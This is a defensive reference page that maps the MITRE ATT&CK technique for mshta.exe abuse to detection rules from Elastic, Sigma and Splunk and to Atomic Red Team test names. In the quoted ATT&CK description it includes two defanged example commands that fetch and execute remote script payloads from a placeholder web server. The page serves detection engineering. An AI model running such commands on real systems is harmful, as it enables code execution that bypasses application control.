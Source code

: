 # T1218.005: Mshta
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/005)**
<blockquote>Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [no defensive relations yet](https://d3fend.mitre.org/technique/d3f:nodefensiverelationsyet)

## Technical Controls (Detection Rules)
### [Elastic Detection Rules](https://github.com/elastic/detection-rules)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 641

**ATT&CK-mapped resources for this (sub)technique:** 4

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/elastic/detection-rules/tree/main/rules)</code> folder:

* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Mshta Making Network Connections](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_mshta_beacon.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Suspicious Execution from a Mounted Device](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_suspicious_execution_from_mounted_device.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Incoming DCOM Lateral Movement via MSHTA](https://github.com/elastic/detection-rules/blob/main/rules/windows/lateral_movement_dcom_hta.toml)**
* [_deprecated](https://github.com/elastic/detection-rules/tree/main/rules/_deprecated/) / **[Network Connection via Mshta](https://github.com/elastic/detection-rules/blob/main/rules/_deprecated/defense_evasion_mshta_making_network_connections.toml)**

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 2578

**ATT&CK-mapped resources for this (sub)technique:** 8

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[CACTUSTORCH Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_cactustorch.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Baby Shark Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_babyshark.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spwaned by SVCHOST](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lethalhta.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Mshta JavaScript Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_javascript.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Spawning Windows Shell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_mshta_spawn_shell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Possible Applocker Bypass](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_possible_applocker_bypass.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Parent of Csc.exe](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_csc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[MSHTA Suspicious Execution 01](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_mshta_execution.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 1624

**ATT&CK-mapped resources for this (sub)technique:** 12

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta inline hta execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect mshta renamed](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_renamed.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect MSHTA Url in Command Line](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_mshta_url_in_command_line.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Mshta spawning Rundll32 OR Regsvr32 Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/mshta_spawning_rundll32_or_regsvr32_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Office Product Spawn CMD Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/office_product_spawn_cmd_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Child Process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Command-Line URL](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_command_line_url.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows MSHTA Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_mshta_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Windows Rundll32 Inline HTA Execution](https://github.com/splunk/security_content/blob/develop/detections/endpoint/ssa___windows_rundll32_inline_hta_execution.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta child process](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_child_process.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious mshta spawn](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_mshta_spawn.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** August 10, 2022

**Total ATT&CK-mapped tests:** 1341

**ATT&CK-mapped resources for this (sub)technique:** 10

The following unit tests mapped to this (sub)technique can be located in [the file here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.005/T1218.005.yaml):

* Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
* Mshta executes VBScript to execute malicious command
* Mshta Executes Remote HTML Application (HTA)
* Invoke HTML Application - Jscript Engine over Local UNC Simulating Lateral Movement
* Invoke HTML Application - Jscript Engine Simulating Double Click
* Invoke HTML Application - Direct download from URI
* Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
* Invoke HTML Application - JScript Engine with Inline Protocol Handler
* Invoke HTML Application - Simulate Lateral Movement over UNC Path
* Mshta used to Execute PowerShell

